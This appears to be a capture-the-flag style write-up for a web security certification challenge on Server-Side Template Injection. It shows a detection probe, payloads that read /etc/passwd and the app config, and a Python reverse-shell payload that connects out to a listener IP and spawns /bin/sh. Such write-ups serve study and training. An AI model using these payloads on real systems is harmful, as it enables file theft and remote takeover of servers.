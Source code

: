 ```yaml
---
title: Challenge 14:The Unseen Obvious
date: 2024-05-14 05:00:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


### Challenge/Task

1. SSTI

**Proof-of-Concept (POC):**

Another injection type inside web application is Server-Side Template Injection (SSTI). SSTI is a type of security problem in websites or web applications. Imagine a website as a building made of many parts. One important part is called a "template," which is like a blueprint for how the website should look.

Now, sometimes, attackers can find a way to sneak their own instructions into these templates. It's a bit like someone sneaking a fake floor plan into a real building blueprint. When the website uses this fake plan, it could do things it's not supposed to, like showing secret information or even letting the attacker control parts of the website.

Usually, to test the SSTI we will insert {{}} syntax into these field or parameters. For example, enter {{ 7*7 }} into a bio field below:

![POC-otb](/img/cwae/rsa1.png){: w="400" h="400" }{: .normal }

Surprisingly, the 7*7 which is equal to 49 is reflected in the bio. That’s mean the parameter is vulnerable to SSTI.

How can attacker exploit this vulnerability? Inside {{}} syntax, attacker can put any command that will be executed by the server. First of all, we try to get the list of user by inserting below payload. It works

```jsx
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

![POC-otb](/img/cwae/rsa2.png){: w="400" h="400" }{: .normal }

Other sensitive info that we can retrieve is also the config by using payload below:
```jsx
{{config.items()}}
```

![POC-otb](/img/cwae/rsa3.png){: w="400" h="400" }{: .normal }

We will try to get a reverse shell from this vulnerability. Using below payload, we can get the reverse shell. But first, we have to setup our listener.

![POC-otb](/img/cwae/rsa4.png){: w="400" h="400" }{: .normal }

Then, we can send below payload to the bio input field. 
```jsx
{{''.__class__.__mro__[1].__subclasses__()[213](['python', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("143.198.205.200",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }}
```

![POC-otb](/img/cwae/rsa5.png){: w="400" h="400" }{: .normal }

After we click “update” button, our listener is starting to get the connection from the server. We are now inside the victim’s server. To prove it, I run id and whoami command showing that it belongs to the victims. 

![POC-otb](/img/cwae/rsa6.png){: w="400" h="400" }{: .normal }